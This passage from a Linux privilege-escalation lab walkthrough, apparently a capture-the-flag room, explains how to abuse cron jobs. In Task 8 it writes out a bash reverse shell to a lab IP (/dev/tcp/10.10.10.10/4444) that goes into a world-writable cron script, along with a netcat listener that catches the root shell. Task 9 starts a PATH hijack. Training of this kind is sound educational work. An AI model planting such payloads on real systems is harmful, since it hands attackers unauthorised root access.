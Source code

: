 ```sudo -l```
> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 8: Cron Jobs - File Permissions

* __Cron jobs__ are programs or scripts which users can schedule to run at specific times or intervals. __Cron table__ files (__crontabs__) store the configuration for cron jobs. The system-wide crontab is located at __/etc/crontab__.

* View the contents of the system-wide crontab:

```cat /etc/crontab```

* There should be two cron jobs scheduled to run every minute. One runs __overwrite.sh,__ the other runs __/usr/local/bin/compress.sh__.

* Locate the full path of the overwrite.sh file:

```locate overwrite.sh```

* Note that the file is world-writable:

```ls -l /usr/local/bin/overwrite.sh```

* Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

* Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

```nc -nvlp 4444```

> __Remember to exit out of the root shell and remove the reverse shell code before continuing!__

---

* Answer the questions below
* Read and follow along with the above.

```No answer needed```


## Task 9: Cron Jobs - PATH Environment Variable

* View the contents of the system-wide crontab:

```cat /etc/crontab```

> Note that the PATH variable starts with /home/user which is our user's home directory.

* Create a file called overwrite.sh in your home directory with the following contents:

```bash
#!/bin/bash
```